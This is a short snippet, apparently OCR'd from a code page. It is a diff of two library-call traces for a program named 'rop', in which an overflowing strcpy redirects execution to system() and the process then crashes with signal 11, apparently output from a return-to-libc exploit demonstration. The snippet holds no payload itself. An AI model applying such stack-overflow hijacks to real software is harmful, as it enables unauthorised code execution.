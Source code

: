 -------------------snippet---------------------
---
> PltEnter: /lib/libc.so.1  ->  /lib/libc.so.1: getenv(0xfe52ce64, 0xfe486c3d, 0xfeffe974)
155c155
< PltEnter: rop             ->  /lib/libc.so.1: __fpstart(0x2, 0xfeffe984, 0xfeffe990)
---
> PltEnter: rop             ->  /lib/libc.so.1: __fpstart(0x2, 0xfeffe968, 0xfeffe974)
158,169c158,168
< PltEnter: rop             ->  /lib/libc.so.1: strcpy(0xfeffe926, 0xfeffeabe, 0xfeffe970)
< PltExit: rop             ->  /lib/libc.so.1: strcpy - 0xfeffe926
< Symbind: rop                          /lib/libc.so.1               exit
< PltEnter: rop             ->  /lib/libc.so.1: exit(0x0, 0x0, 0xfeffe990)
< PltEnter: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset(0xfe580180, 0x0, 0x40)
< PltExit: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset - 0xfe580180
< PltEnter: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset(0xfe580140, 0x0, 0x40)
< PltExit: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset - 0xfe580140
< PltEnter: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset(0xfe5800c0, 0x0, 0x40)
< PltExit: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset - 0xfe5800c0
< PltEnter: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset(0xfe580000, 0x0, 0x40)
< PltExit: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset - 0xfe580000
---
> PltEnter: rop             ->  /lib/libc.so.1: strcpy(0xfeffe906, 0xfeffeaa2, 0x4)
> PltExit: rop             ->  /lib/libc.so.1: strcpy - 0xfeffe906
> Symbind: rop                          /lib/libc.so.1               system
> PltEnter: rop             ->  /lib/libc.so.1: system(0x8050e18, 0xfeffe900, 0xfeffe938)
> PltEnter: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset(0xfeffe600, 0x0, 0x20)
> PltExit: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset - 0xfeffe600
> PltEnter: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset(0xfe5801c0, 0x0, 0x40)
> PltExit: /lib/libc.so.1  ->  /lib/libc.so.1:  _memset - 0xfe5801c0
> PltExit: rop             ->  /lib/libc.so.1: system - 0x0
> Process 27460 got signal 11
> Enforcement code to exit(0)
-------------------snippet---------------------
